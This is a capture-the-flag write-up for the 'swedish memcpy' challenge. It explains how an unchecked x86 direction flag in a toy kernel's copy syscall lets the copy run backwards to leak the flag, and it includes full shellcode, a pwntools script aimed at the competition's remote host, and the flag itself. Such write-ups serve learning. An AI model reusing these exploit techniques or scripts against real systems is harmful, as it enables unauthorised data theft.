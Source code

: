 # swedish memcpy

Solved after the end of the CTF.

I was not able to find the solution until after the event, when someone reminded me of the direction flag.

A solution, heavily based on the author's solution, is documented here for my future reference.

## Challenge

The challenge starts QEMU with a custom disk image which loads a basic kernel.

The kernel reads 0x1000 bytes of program data from serial input and executes it in usermode.

We have 4 syscalls available to us:

| Mnemonic           | RAX | Description                                            |
| ------------------ | --- | ------------------------------------------------------ |
| `exit`             | 0x0 | Shuts down the virtual machhine                        |
| `write`            | 0x1 | Prints a string to the screen                          |
| `readchar`         | 0x2 | Reads one character from serial input                  |
| `get_process_data` | 0x3 | Gets data you're allowed to read from the process data |

The flag is stored in kernel data, but at an address we are not allowed to read from userspace.

## Solution

String data in the kernel is arranged as follows:

```asm
; Strings
flag:
    db "flag{goes_here}", 0
; Data userspace can read freely
allowed_data_base:
    incbin "procdata.json"
    db 0
kernel_source:
    db 0xA
    incbin "kernel.asm"
allowed_data_end:
```

As we can see, the flag is stored immediately before the `allowed_data_base` where we are allowed to read.

Let's look at the source code for the `get_process_data` syscall:

```asm
; Gets data you're allowed to read from the process data
; That includes and the kernel source.
; Arguments:
;   rdi = destination buffer
;   rcx = number of bytes to read
;   rdx = offset into data buffer to read
; Returns:
;   rax = 0 on success
;   rax = EFAULT if the buffer, offset and size combination isn't valid
get_process_data_handler:
    push rsi
    ; Validate destination + size range
    mov rax, EFAULT
    add rcx, rdi
    jc .end ; Fail on overflow
    cmp rcx, userspace_limit
    ja .end ; Fail if too large
    sub rcx, rdi
    ; Validate offset + size
    add rdx, rcx
    jc .end ; Fail on overflow
    cmp rdx, allowed_data_end - allowed_data_base
    ja .end ; Fail if too large
    sub rdx, rcx
    ; All validated, do the copy
    lea rsi, [allowed_data_base + rdx]
    rep movsb
    xor rax, rax
.end:
    pop rsi
    iretq
```

It is checking that the starting offset, number of bytes, and destination pointer are all valid.
Given these checks, we should be unable to read data from outside the allowed area, or write data anywhere other than userspace memory.

The handler uses `rep movsb` to copy data, without checking the direction flag.
Normally, this would increment RSI every iteration.
However, from the Intel 64 and IA-32 Architectures Software Developer's Manual:

> After the move operation, the (E)SI and (E)DI registers are incremented or decremented automatically according to the setting of the DF flag in the EFLAGS register.
> (If the DF flag is 0, the (E)SI and (E)DI register are incremented; if the DF flag is 1, the (E)SI and (E)DI registers are decremented.)
> The registers are incremented or decremented by 1 for byte operations, by 2 for word operations, or by 4 for doubleword operations.

If we set DF using `std`, instructions such as `movsb` will decrement the RSI and RDI registers instead, allowing us to copy backwards.

By setting RDX to 0, we will copy from the start of the allowed data.
With the DF flag set, instead of copying from `program_data`, we will copy from `flag` in reverse order.

RCX should be set to the length we want to copy, which is the length of the flag + 2 (1 for the null byte terminator, 1 because our pointer starts in the first byte of `program_data`).

RDI has to be set to a userspace virtual address such that there is enough space before and after the pointer to store the copied data.
This is because the syscall will check that there is enough space after, which we need to pass, but we will copy into the space before the pointer.
We need to be careful that we do not accidentally overwrite our userspace program data.

Once the flag has been copied into userspace memory, we can clear DF using `cld`.
We can now print the flag to serial output using the `write` syscall.

## Exploit

Shellcode is based on the author's intended solution.

### shellcode.s

```asm
[org 0x0]
[bits 64]

%define FLAG_LEN 0x38

start:

copy_flag:
    std                                        ; set direction flag
    mov rdx, 0                                 ; offset into source buffer
    mov rcx, FLAG_LEN                          ; number of characters to read
    lea rdi, [rel buffer + FLAG_LEN - 1]       ; end of destination buffer
    mov rax, 3                                 ; get_process_data
    int 0x0                                    ; syscall
    cld                                        ; clear direction flag

write_flag:
    lea rsi, [rel buffer]                      ; start of source buffer
    mov rax, 1                                 ; write
    int 0x0                                    ; syscall

exit:
    mov rax, 0                                 ; exit
    int 0x0                                    ; syscall

buffer:
```

### exploit.py

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

host = args.HOST or '54.93.211.13'
port = int(args.PORT or 10001)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return process(['debug.sh'] + argv, *a, **kw)
    else:
        return process(['run.sh'] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    hash_challenge = io.recvline().split()
    if hash_challenge[0] == b'hashcash' and hash_challenge[1] == b'-mb28':
        response = subprocess.run([
            'hashcash',
            '-mb28',
            hash_challenge[2].decode(),
        ], capture_output=True).stdout
        io.send(response)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

shellcode = base64.b64encode(open('shellcode.bin', 'rb').read().ljust(0x1000, b'\x00'))

io = start()
io.sendlineafter(b': ', shellcode)
print(io.recvuntil(b'}'))
```

## Flag

```
kalmar{th15_1s_7h3_m0st_us3fu1_x86_featur3_y3s_1_know}
```
